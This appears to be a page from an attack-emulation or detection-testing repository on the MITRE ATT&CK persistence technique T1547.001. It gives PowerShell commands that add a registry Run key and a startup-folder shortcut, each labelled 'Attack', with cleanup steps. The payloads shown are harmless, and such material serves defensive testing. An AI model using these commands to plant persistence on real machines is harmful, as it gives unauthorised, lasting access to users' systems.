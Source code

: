 # TA0003 - Persistence

*- maintaining access.*

## T1547 - Boots or Logon Autostart Execution

### T1547.001 - Registry Run Keys / Startup Folder

- Execute command for current user logon via registry run key:
    - Attack:
    ```ps1
    $cmd = "$env:SystemDrive\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command Get-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name poc -Value $cmd -Force
    ```
    - Cleanup:
    ```ps1
    Remove-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name poc -Force
    ```

- Execute command for current user logon via startup folder:
    - Attack:
    ```ps1
    $cmd = "$env:SystemDrive\Windows\explorer.exe $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
    $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.Save()
    ```
    - Cleanup:
    ```ps1
    Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
    ```

## Resources
- [TA0003 - Persistence](https://attack.mitre.org/tactics/TA0003/)
    - [T1547 - Boot or Logon Autostart Execution](https://attack.mitre.org/techniques/T1547/)
        - [T1547.001 - Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)
